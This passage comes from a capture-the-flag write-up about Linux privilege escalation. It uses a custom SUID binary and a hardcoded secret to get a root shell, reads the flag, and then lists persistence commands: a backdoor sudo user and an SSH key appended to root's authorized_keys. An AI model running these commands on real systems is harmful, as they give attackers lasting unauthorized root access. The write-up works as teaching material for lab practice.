 Now exploit the binary with the discovered secret:

```bash
/usr/local/bin/sudovest
# Enter: v3st_s3cr3t_2025
```

**Output:**
```
Access granted! Spawning root shell...
# whoami
root
```

### Step 7: Flag Capture

With root access obtained (via either method), retrieve the flag:

```bash
cat /root/flag.txt
```

**Flag:**
```
CTF{sud0_v1m_pr1v3sc_m4st3r_2025}
```

### Step 8: Persistence (Optional Educational Step)

For educational purposes, here are common persistence techniques:

**Add a new user with root privileges:**
```bash
adduser hacker
usermod -aG sudo hacker
```

**Add SSH key:**
```bash
mkdir -p /root/.ssh
echo "your-public-key" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

**Note:** Never perform these actions on systems you don't own or have explicit permission to test!

## Learning Objectives

This challenge teaches several important concepts:

### 1. **Sudo Misconfiguration Exploitation**
   - Understanding sudo privileges with `sudo -l`
   - Identifying dangerous sudo permissions
   - Exploiting text editors (vim, nano, etc.) with sudo access
   - Using GTFOBins as a reference for exploitation techniques

### 2. **SUID Binary Enumeration**
   - Finding SUID binaries using `find` command
   - Understanding the SUID bit and its security implications
   - Identifying unusual/custom SUID binaries
